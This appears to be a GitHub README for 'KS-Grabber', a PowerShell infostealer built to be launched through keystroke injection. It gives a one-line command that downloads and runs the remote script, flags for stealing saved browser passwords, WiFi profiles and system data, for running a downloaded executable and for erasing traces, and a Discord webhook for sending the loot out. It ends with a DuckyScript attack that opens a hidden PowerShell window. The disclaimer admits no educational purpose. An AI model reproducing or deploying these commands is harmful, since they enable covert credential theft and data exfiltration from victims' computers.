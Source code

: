 # ✨ KS-Grabber

KS-Grabber is a keystroke injection grabber that is fully modular and developed with PowerShell. This script allows you to collect information from various sources and send it to a webhook.

## Usage

Run the following command in PowerShell to execute KS-Grabber:

```powershell
$hookUrl = '<webhook goes here>'
iex (iwr https://raw.githubusercontent.com/Niximkk/ks-grabber/main/ks-grabber.ps1).content
```

## Configuration

Before running the script, you need to configure the boolean variables that enable the grabber modules. Open the script and set the following variables:

```powershell
$gatherPcData = $true  <# Gather PC data #>
$gatherWifiProfiles = $true  <# Gather WiFi profiles #>
$gatherOpenPorts = $true  <# Gather open ports #>
$executeExe = $false  <# Execute and EXE File #>
$gatherInstalledSoftware = $true <# Gather installed softwares #>
$gatherBrowserPass = $true <# Gather passwords saved in browsers #>
$removeTraces = $true  <# Remove traces #>
```

You can also change some extra variables according to your preferences regarding the modules:

```powershell
$keyContentLabel = "Key Content"  <# Only if the system is not in en-us or pt-br. #>
$exeUrl = "https://somerandomwebsite.lol/yourfile.exe" <# The EXE file referring to the executeExe function. #>
```

**WARNING:** It is mandatory to configure the webhook correctly. Replace the value of the `$hookUrl` variable with your webhook:

```powershell
$hookUrl = "https://discord.com/api/webhooks/wompwomp"
```

Otherwise, the script will not work!

## Example Attack

Here is an example attack using the grabber:

```plaintext
GUI r
DELAY 1000
STRING cmd
ENTER
DELAY 1000
STRING powershell -windowstyle hidden -command "$hookUrl = '<webhook goes here>'; iex (iwr https://raw.githubusercontent.com/Niximkk/ks-grabber/main/ks-grabber.ps1).content"
ENTER
```
### ⭐ Made for educational purposes (even though I don't know how it can be used in an educational way), I am not responsible for how this tool is used.
